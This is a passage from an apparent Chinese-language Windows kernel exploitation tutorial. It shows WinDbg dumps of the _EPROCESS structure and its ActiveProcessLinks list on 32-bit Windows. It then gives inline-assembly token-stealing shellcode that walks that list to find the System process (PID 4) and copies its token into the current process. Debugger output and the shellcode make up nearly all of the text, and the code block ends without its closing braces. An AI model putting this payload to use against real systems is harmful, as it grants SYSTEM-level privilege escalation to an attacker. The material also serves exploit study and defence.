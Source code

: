 windbg调试`_EPROCESS`结构体如下：

```
3: kd> dx -id 0,0,ffffffff86a157c8 -r1 ((ntkrpamp!_EPROCESS *)0x86a157c8)
((ntkrpamp!_EPROCESS *)0x86a157c8)                 : 0x86a157c8 [Type: _EPROCESS *]
    [+0x000] Pcb              [Type: _KPROCESS]
    [+0x098] ProcessLock      [Type: _EX_PUSH_LOCK]
    [+0x0a0] CreateTime       : {132339167456696196} [Type: _LARGE_INTEGER]
    [+0x0a8] ExitTime         : {0} [Type: _LARGE_INTEGER]
    [+0x0b0] RundownProtect   [Type: _EX_RUNDOWN_REF]
    [+0x0b4] UniqueProcessId  : 0x4 [Type: void *] // System进程的uid为0x4
    [+0x0b8] ActiveProcessLinks [Type: _LIST_ENTRY] 

```

这里的`ActiveProcessLinks`如前述WRK代码所说，是系统内所有进程的全局列表，调试可知:

```
3: kd> dx -id 0,0,ffffffff86a157c8 -r1 (*((ntkrpamp!_LIST_ENTRY *)0x86a15880))
(*((ntkrpamp!_LIST_ENTRY *)0x86a15880))                 [Type: _LIST_ENTRY]
    [+0x000] Flink            : 0x881a3990 [Type: _LIST_ENTRY *]
    [+0x004] Blink            : 0x83f89f18 [Type: _LIST_ENTRY *]

```

此双向链表指向的前一个进程的`_LIST_ENTRY`地址为0x881a3990，而这个进程的uid为124，即为`smss.exe `

```
3: kd> dt nt!_EPROCESS 0x881a3990-0xb8
   +0x000 Pcb              : _KPROCESS
   +0x098 ProcessLock      : _EX_PUSH_LOCK
   +0x0a0 CreateTime       : _LARGE_INTEGER 0x01d629c5`8a27bba5
   +0x0a8 ExitTime         : _LARGE_INTEGER 0x0
   +0x0b0 RundownProtect   : _EX_RUNDOWN_REF
   +0x0b4 UniqueProcessId  : 0x00000124 Void
   +0x0b8 ActiveProcessLinks : _LIST_ENTRY [ 0x882abd00 - 0x86a15880 ]

```

所以，我们可以写出遍历ActiveProcessLinks链表找到System进程并复制token的shellcode如下:

```c++
void Shellcode()
{
	_asm
	{
		nop
		nop
		nop
		nop
		pushad
		mov eax,fs:[124h]		// 找到当前线程的_KTHREAD结构
		mov eax, [eax + 0x50] 	// 找到_PROCESS&_EPROCESS结构
		mov ecx, eax 			// ecx为当前线程
		mov edx, 4

		// 循环获取system的_EPROCESS
	find_sys_pid:
		mov eax, [eax+0xb8]		// 找到ActiveProcessLinks
		sub eax, 0xb8			// FLINK
		cmp [eax + 0xb4], edx	// 与uid = 4比较
		jnz find_sys_pid

		// 替换Token
		mov edx, [eax+0xf8]
		mov [ecx + 0xf8], edx
		popad
		ret
```